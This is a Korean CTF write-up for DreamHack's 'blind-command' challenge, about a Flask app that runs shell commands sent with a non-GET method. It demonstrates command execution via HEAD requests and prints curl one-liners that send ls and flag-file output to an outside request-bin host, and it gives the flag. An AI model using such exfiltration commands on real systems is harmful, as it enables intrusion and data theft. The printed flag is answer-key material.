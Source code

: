# [DreamHack] blind-command

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> Read the flag file XD
>
> Release: [blind-command.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8561977/blind-command.zip)

## Analysis

```python
@app.route('/' , methods=['GET'])
def index():
    cmd = request.args.get('cmd', '')
    if not cmd:
        return "?cmd=[cmd]"

    if request.method == 'GET':
        ''
    else:
        os.system(cmd)
    return cmd
```

`cmd` 변수에 값을 전달하면, 요청의 메소드가 `GET`인 경우 아무 동작도 하지 않고, `GET`이 아닌 경우 `os.system(cmd)`를 실행한다. 그리고 페이지에는 `cmd`를 그대로 반환한다.

## Exploit

### Remote code execution

서버에 `OPTIONS` 메소드로 요청을 보내면 어떤 메소드들이 허용되는지 헤더에 담아서 응답을 보내준다.

![image](https://user-images.githubusercontent.com/104156058/165386899-52c01572-665f-46be-8d3e-256706aa2ac6.png)

Burp suite에서 패킷의 메소드를 `OPTIONS`로 수정하고 forward시키면

![image](https://user-images.githubusercontent.com/104156058/165387016-b378baaf-b338-4f7e-89fd-27609fb5c915.png)

`app.py` 코드 상으로는 `GET` 메소드만 허용되지만 실제로는 `HEAD`, `OPTIONS`, `GET` 메소드가 허용되는 것을 알 수 있다. `HEAD` 메소드는 `GET`과 유사하지만 헤더 정보만 보낸다는 차이점이 있는데, 어쨌든 `cmd` 변수의 값은 서버로 잘 넘어갈 것이므로 `os.system(cmd)`가 실행되도록 할 수 있다.

```
$ python3 app.py
 * Serving Flask app 'app' (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on all addresses (0.0.0.0)
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://127.0.0.1:8000
```

로컬에 테스트 서버를 열고

![image](https://user-images.githubusercontent.com/104156058/165387859-39af1d38-99c8-4c7f-912a-1bf9702afe35.png)

`HEAD` 메소드로 `?cmd=echo AAAA`를 보내면

```
AAAA
127.0.0.1 - - [27/Apr/2022 05:36:20] "HEAD /?cmd=echo%20AAAA HTTP/1.1" 200 -
```

서버에서 커맨드가 정상적으로 실행되는 것을 확인할 수 있다.

### Get flag

서버에 있는 플래그 파일의 내용을 `curl`로 내 서버로 전송하면 된다. 전송받을 서버로는 DreamHack tools의 request bin을 이용하면 편하다. `curl <url> -d param=value` 커맨드를 실행하면 `<url>`에 `POST` 메소드로 `param=value`라는 데이터를 전송할 수 있다. 이때 `value`에 공백이나 개행 등이 있으면 그 위치까지만 전송된다.

먼저 플래그 파일의 이름을 확인하기 위해 `ls`의 실행 결과를 전송한다. 커맨드는 다음과 같다.

```bash
curl https://dbkqkeu.request.dreamhack.games -d data=$(ls | tr -d ' |\n')
```

`tr`에 `-d` 옵션을 주면 문자열에서 특정 문자를 찾아서 제거할 수 있다. 따라서 `ls`의 실행 결과에서 공백과 개행을 제거해서 서버로 전송하는 커맨드가 된다.

![image](https://user-images.githubusercontent.com/104156058/165395509-97c0e24b-1d36-41ff-99c8-3004be9beef3.png)

![image](https://user-images.githubusercontent.com/104156058/165395555-89ac9cff-b631-4cf9-bbd8-c3cffd6c55b7.png)

전송된 데이터로부터 `flag.py` 파일이 있는 것을 확인할 수 있다. 다시 같은 방식으로 `flag.py` 파일의 내용을 서버로 전송하면 플래그를 획득할 수 있다. 커맨드는 다음과 같다.

```bash
curl https://dbkqkeu.request.dreamhack.games -d data=$(cat flag.py | tr -d ' |\n')
```

![image](https://user-images.githubusercontent.com/104156058/165395711-dd1d993f-f732-413b-b7a2-95a398c89664.png)

![image](https://user-images.githubusercontent.com/104156058/165395749-fa796eb1-3d51-4d2c-ab2a-b49f2d604562.png)

```
flag: DH{4c9905b5abb9c3eb10af4ab7e1645c23}
```